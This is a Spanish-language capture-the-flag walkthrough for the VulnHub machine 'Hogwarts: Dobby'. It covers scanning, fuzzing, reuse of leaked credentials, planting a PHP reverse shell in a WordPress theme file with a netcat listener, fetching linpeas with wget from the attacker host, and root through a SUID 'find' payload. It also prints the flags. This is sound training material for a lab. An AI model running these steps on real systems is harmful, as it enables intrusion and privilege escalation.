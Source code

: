 <h1 align="center">
<br>
  <img src="http://pm1.narvii.com/6428/fb6021f8782bf80369c95fb2940fb77feb9813d0_00.jpg" alt="Front-End Checklist" width="250">
  <br>
  Hogwarts: Dobby
  <br>
</h1>

<h4 align="center">Maquina creada por <img src="https://img.icons8.com/android/344/twitter.png" alt="Front-End Checklist" width="12">@BertrandLorent9</h4>
<h4 align="center">Aquí puedes descargarte la <a href="https://www.vulnhub.com/entry/hogwarts-dobby,597/">máquina</a> y ver una descripción de ella</h4>

---

# Índice

- [Recopilación de información](#recopilación-de-información)
  - [Nmap](#nmap)
  - [Fuzz](#fuzz)
- [Búsqueda de vulnerabilidades](#búsqueda-de-vulnerabilidades)
  - [Wordpress](#wordpress)
- [Explotación de vulnerabilidades](#explotación-de-vulnerabilidades)
  - [Reverse Shell](#reverse-shell)
- [Post-explotación](#post-explotación)
  - [Foothold](#foothold)
  - [Búsqueda de vulnerabilidades](#búsqueda-de-vulnerabilidades-1)
       - [Linpeas](#linpeas)
  - [Explotación de vulnerabilidades](#explotación-de-vulnerabilidades-1)
       - [SUID](#suid)
- [Información Adicional](#información-adicional)


---

## Recopilación de información

Aquí veremos que esta conectado a la subred, los puerto abiertos, las paginas web, etc.

### Nmap

Veremos que redes estan conectadas a esta subred con este comando:

```nmap -sP X.X.X.0/24```

Para ver los puertos abiertos que tiene la red utilizaremos este comando:

```nmap -sV -sC X.X.X.5```

### Fuzz

Para fuzzear la web usaremos este comando con una wordlist que tengamos:

```ffuf -c -w /opt/wordlists/SecLists/Discovery/Web-Content/common.txt -u http://X.X.X.5/FUZZ```

> ⚠️ Importante poner FUZZ alfinal de la URL

Buscando y rebuscando encontramos unas cuantas webs:

* http://X.X.X.5/log
```
#pass:OjppbGlrZXNvY2tz --> ilikesocks
hint --> /DiagonAlley
```
* http://X.X.X.5/alohomora/
```
Draco's password is his house ;)
```
> **slytherin es la casa de Draco Malfoy**

El siguiente ffuf sera para **/DiagonAlley** y descubriremos que es un Wordpress

```ffuf -c -w /opt/wordlists/SecLists/Discovery/Web-Content/common.txt -u http://X.X.X.5/DiagonAlley/FUZZ```

## Búsqueda de vulnerabilidades

### Wordpress

Al ver que tenemos un wordpress probamos las credenciales de **draco** como usuario y **slytherin** como contraseña

Explorando podemos ver que podemos editar el **404.php** --> **Editor** --> **Temas en Apariencia**

## Explotación de vulnerabilidades

### Reverse Shell

He utilizado esta [página web](https://www.hackingarticles.in/wordpress-reverse-shell/) para entender como explotar esta vulnerabilidad.

Ademas añado esta otra [página](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php) para la reverse shell de php

> Modificar lo necesario de la reverse shell

Lo que procederemos ha hacer es añadir la reverse shell en el texto del **404.php**

Antes de ejecutar la url pondremos el comando para abrir el puerto puesto en la reverse shell:

```rlwrap nc -nvlp 4444```

La url es esta: ```http://X.X.X.5/DiagonAlley/wp-content/themes/amphibious/404.php```

Posteriormente a esto, haremos que la shell sea interactiva con este comando:

```python3 -c 'import pty; pty.spawn("/bin/bash")'```

## Post-explotación

### Foothold

Nos conectaremos al usuario **dobby** con este comando:

```su dobby```

> La contraseña la hemos sacado anteriormente que es esta **ilikesocks**

Buscaremos la primera flag en el usuario dobby, en esta maquina no podemos utilizar **cat** para leer archivos, asi que he optado por usar el comando **less**

Aquí tenemos la primera flag: **flag1{28327a4964cb391d74111a185a5047ad}**

## Búsqueda de vulnerabilidades

### Linpeas

Utilizaremos el [linPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS) para enumerar las possibles vulnerabilidades que puede tener ese sistema para la escalada de privilegios.

Para enviar el [linPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS) con http usaremos esta forma:

En el **Server/Local** pondremos este comando: ```sudo python3 -m http.server 80```

En el **Cliente/Remota/Victima** pondremos este comando: ```wget X.X.X.4/linpeas.sh```

## Explotación de vulnerabilidades

### SUID

Una de las mayores vulnerabilidades encontrada por el [linPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS) es la escalda de privilegios con el **/usr/bin/find**

He utilizado esta [página web](https://gtfobins.github.io/gtfobins/find/#suid) para sacar un payload con la funcion de bypasear la seguridad y conseguir el root

Pondremos este comando sacado de la anterior página web:

```/usr/bin/find . -exec /bin/sh -p \; -quit```

Y aquí tenemos la segunda flag:
```
                                         _ __
        ___                             | '  \
   ___  \ /  ___         ,'\_           | .-. \        /|
   \ /  | |,'__ \  ,'\_  |   \          | | | |      ,' |_   /|
 _ | |  | |\/  \ \ |   \ | |\_|    _    | |_| |   _ '-. .-',' |_   _
// | |  | |____| | | |\_|| |__    //    |     | ,'_`. | | '-. .-',' `. ,'\_
\\_| |_,' .-, _  | | |   | |\ \  //    .| |\_/ | / \ || |   | | / |\  \|   \
 `-. .-'| |/ / | | | |   | | \ \//     |  |    | | | || |   | | | |_\ || |\_|
   | |  | || \_| | | |   /_\  \ /      | |`    | | | || |   | | | .---'| |
   | |  | |\___,_\ /_\ _      //       | |     | \_/ || |   | | | |  /\| |
   /_\  | |           //_____//       .||`      `._,' | |   | | \ `-' /| |
        /_\           `------'        \ |   AND        `.\  | |  `._,' /_\
                                       \|       THE          `.\
                                            _  _  _  _  __ _  __ _ /_
                                           (_`/ \|_)/ '|_ |_)|_ |_)(_
                                           ._)\_/| \\_,|__| \|__| \ _)
                                                           _ ___ _      _
                                                          (_` | / \|\ ||__
                                                          ._) | \_/| \||___


root{63a9f0ea7bb98050796b649e85481845!!}
```

## Información Adicional

Páginas web utilizadas:

- [PHP Reverse Shell](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php) - Reverse Shell PHP

- [Wordpress Reverse Shell](https://www.hackingarticles.in/wordpress-reverse-shell/) - Explotar la vulnerabilidad del wordpress con un código malicioso

- [linPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS) - Enumeración de escalada de privilegios local.

- [SUID](https://gtfobins.github.io/gtfobins/find/#suid) - Escalada de privilegios SUID con el find

**[⬆ back to top](#-----hogwarts-dobby-)**
